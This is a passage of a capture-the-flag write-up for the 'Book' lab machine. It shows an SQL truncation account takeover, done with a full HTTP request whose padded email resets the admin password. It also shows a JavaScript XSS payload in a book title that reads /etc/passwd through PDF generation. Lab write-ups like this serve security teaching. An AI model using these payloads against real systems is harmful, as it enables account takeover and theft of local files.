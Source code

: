 To trigger the XSS we need to search for our book.

![admin panel](/media/2020.07/book_04.png)
![admin panel](/media/2020.07/book_05.png)

_Note: This need to be exploited quickly as the book collection is periodicaly
reset._

The Contact form give us the email address of the platform's administrator:
`admin@book.htb`.

## admin panel

When looking at the website pages we found `/admin/` another login form.

Using [SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack)
we can change the admin account password on the plateform:

We register a new user with a specific long email using Burp repeater.
Our post data request is the following:

    POST /index.php HTTP/1.1
    Host: 10.10.10.176
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.176/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 222
    Connection: close
    Cookie: PHPSESSID=9li0llrrcn7tthael9i5s8pmsr
    Upgrade-Insecure-Requests: 1

    name=ppqqe&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*&password=q

We can now logged in as `admin@book.htb` using the password `q`.

![admin panel](/media/2020.07/book_03.png)

The admin panel allow to download the users' and books' collections.
As we saw previously the files `book title` and `book author` are vulnerable to
an XSS.

It is possible to [transform an XSS in a generated PDF into an LFI](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

We create a new book with our user account and put a specific JavaScript payload
in the `book title`.

    <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>
